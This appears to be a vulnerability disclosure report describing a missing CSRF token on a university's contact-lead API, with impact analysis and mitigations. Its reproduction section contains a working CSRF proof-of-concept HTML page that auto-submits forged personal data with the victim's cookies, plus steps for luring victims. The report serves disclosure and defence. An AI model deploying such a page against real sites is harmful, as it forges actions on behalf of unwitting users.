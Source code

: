 # 💼 CSRF

1\. Executive Summary

A vulnerability has been identified in the contact functionality of an online platform used by Example University at [**online.exampleuniversity.com**](http://online.exampleuniversity.com/). The POST request sent to [**contact.exampleuniversity.com/api/lead**](http://contact.exampleuniversity.com/api/lead) lacks a proper CSRF (Cross-Site Request Forgery) token or equivalent protection mechanism. This absence allows a potential attacker to exploit the weakness and send unauthorized requests, with personal data being transmitted as part of the request.

***

#### 2. Vulnerability Description

*   **Lack of CSRF Token:**

    The POST request to `/api/lead` does not include a CSRF token. A CSRF token is a unique value associated with a user session that must be included in each state-changing request. Without this validation, it is impossible to verify that the request originates from a legitimate source.
*   **Chain of Requests and Personal Data Exposure:**

    The request originates from [**online.exampleuniversity.com**](http://online.exampleuniversity.com/) and is processed by [**contact.exampleuniversity.com**](http://contact.exampleuniversity.com/). Personal data (such as first name, last name, email, and phone number) is transmitted in this process, increasing the severity of the vulnerability if exploited.
*   **Potential Data Exposure:**

    Without robust validation mechanisms, not only is the integrity of the contact action compromised, but sensitive personal information may also be manipulated or extracted by an attacker.

***

#### 3. Potential Impact on the University

*   **Manipulation of Contact Data:**

    An attacker could send malicious requests on behalf of legitimate users, resulting in:

    * Insertion of false data into the lead database.
    * Mass submission of spam or unauthorized messages, affecting the quality of the data received.
*   **Reputational Damage:**

    Abuse of the contact functionality can undermine user trust in the university’s ability to protect personal information and manage its online services securely.
*   **Potential for Further Exploitation:**

    Although the primary vector is request forgery, exploitation of this vulnerability could facilitate other attacks (such as phishing or denial of service) by manipulating user interactions with the platform.
*   **Regulatory and Compliance Risks:**

    Transmitting and storing personal data without adequate security measures can lead to legal implications and non-compliance with privacy regulations (such as GDPR, where applicable).

***

#### 4. Reproduction Steps

> **Note:** These steps should only be executed in a controlled environment and on systems for which you have explicit authorization to perform security testing.

**Step 1: Prepare an Authenticated Session**

* Ensure that a victim’s browser (or your test browser) is authenticated with [**online.exampleuniversity.com**](http://online.exampleuniversity.com/). This is necessary because the attack leverages the victim’s active session to automatically include credentials (cookies).

**Step 2: Craft a Malicious HTML Page**

Create an HTML file (e.g., `csrf_attack.html`) with the following content:

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>CSRF Attack Demo</title>
</head>
<body>
  <script>
    // Data payload mimicking a legitimate contact submission
    const data = {
      "isB2B": false,
      "firstName": "John",
      "lastName": "Doe",
      "email": "john.doe@example.com",
      "mobile": "+1 555-555-5555",
      "state": "CA",
      "startStudying": "",
      "citizenResident": true,
      "leadSourceDetail": "Course Guide",
      "type": "Generic",
      "leadAttribution": "utmcsr=(direct)|utmcmd=(none)|utmccn=(not set)",
      "device": "Desktop",
      "os": "Windows",
      "portfolio": "Future Skills",
      "interestedCourseId": "DAT111U"
    };

    // Using fetch to send the POST request
    fetch("<https://contact.exampleuniversity.com/api/lead>", {
      method: "POST",
      headers: {
        "Content-Type": "application/json"
      },
      body: JSON.stringify(data),
      credentials: "include" // Ensures that cookies are sent with the request
    })
    .then(response => response.json())
    .then(result => console.log("Response:", result))
    .catch(error => console.error("Error:", error));
  </script>
</body>
</html>
```

**Step 3: Host the Malicious Page**

* Host the HTML file on a web server under your control, or open it locally in a browser for testing.
* The page must be accessible to the victim’s browser. In a real-world scenario, the attacker would need to trick the victim into visiting this page (e.g., through phishing or social engineering).

**Step 4: Lure the Victim**

* The attacker must convince an authenticated user of [**online.exampleuniversity.com**](http://online.exampleuniversity.com/) to visit the malicious page.
* Once the victim loads the page, the embedded JavaScript will automatically execute the POST request to the vulnerable endpoint.

**Step 5: Observe the Result**

* If the vulnerability is successfully exploited, the endpoint at [**contact.exampleuniversity.com/api/lead**](http://contact.exampleuniversity.com/api/lead) will process the unauthorized request.
* Verification can be done by checking for new entries in the lead database or by examining the HTTP response in the browser’s console.

**Step 6: Analysis and Verification**

* Confirm that the request did not require a CSRF token and that the forged data has been accepted.
* This confirms that an attacker could potentially leverage this flaw to inject malicious data or perform other unwanted actions on behalf of the user.

***

#### 5. Mitigation Recommendations

* **Implement CSRF Tokens:**
  * Integrate a unique CSRF token within every form and validate it on the server side upon receiving a request.
  * Utilize frameworks or libraries that provide native CSRF protection.
* **Validate Origin/Referer Headers:**
  * Ensure that the `Origin` or `Referer` headers match legitimate domains (in this case, verifying that requests originate from [**online.exampleuniversity.com**](http://online.exampleuniversity.com/)).
* **Use Cookies with SameSite Attribute:**
  * Configure session cookies with the `SameSite` attribute (preferably `Strict` or `Lax`) to reduce the risk of unintended third-party request inclusion.
* **Rate Limiting:**
  * Implement rate limiting controls to prevent an attacker from sending a large volume of malicious requests in a short period.
* **Monitoring and Logging:**
  * Set up logging and monitoring systems to detect unusual or suspicious request patterns, facilitating prompt incident response.
* **Review Communication Chain:**
  * Ensure that the transition between [**online.exampleuniversity.com**](http://online.exampleuniversity.com/) and [**contact.exampleuniversity.com**](http://contact.exampleuniversity.com/) is conducted securely by enforcing HTTPS on all communications and validating the integrity of transmitted data.

***

#### 6. Conclusion

The absence of a CSRF protection mechanism in the university’s contact endpoint poses a significant vulnerability that can be exploited to perform unauthorized actions on behalf of users, compromising data integrity and institutional reputation. The provided reproduction steps illustrate how an attacker could leverage this vulnerability by tricking an authenticated user into executing an unintended request. Mitigation is essential to safeguard personal information and maintain the security of the system. Implementing robust controls such as CSRF tokens, origin validation, and additional security measures is strongly recommended.

<figure><img src="../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

***
